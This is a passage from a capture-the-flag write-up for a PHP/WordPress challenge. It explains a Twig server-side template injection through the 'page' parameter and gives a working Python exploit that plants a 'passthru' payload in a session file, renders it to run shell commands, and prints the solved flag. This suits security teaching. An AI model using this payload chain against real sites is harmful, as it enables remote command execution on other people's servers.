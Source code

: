 The `$page` variable is derived from the user-supplied input (`$_REQUEST['page']`), allowing for potential SSTI if proper validation is not enforced.

The exploitation involves crafting a request that leverages the SSTI to execute server-side commands. We can use Twig's capabilities to run PHP functions through the template rendering.

The following payload can be used to exploit the SSTI:

```python
import httpx
import asyncio

URL = "http://100.25.255.51:9095/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    pass

async def main():
    api = API()

    # Step 1: Save the session data with an SSTI payload
    res = await api.c.get("/wp-admin/admin-ajax.php", params={
        "action": "save_session",
        "session_data": "{{['nl /*']|map('passthru')}}"
    })

    # Step 2: Render the page that contains the SSTI payload
    res = await api.c.get("/", params={
        "page": "sess_" + res.cookies.get("PHPSESSID")  # our session id that contains the SSTI
    })

    # Step 3: Print the result of the SSTI execution
    print(res.text)

if __name__ == "__main__":
    asyncio.run(main())

```

## Flag

CTF{f0rc3d\_sst1\_ch4ll\_zz4z2561}

# My Shop Disaster

## Description
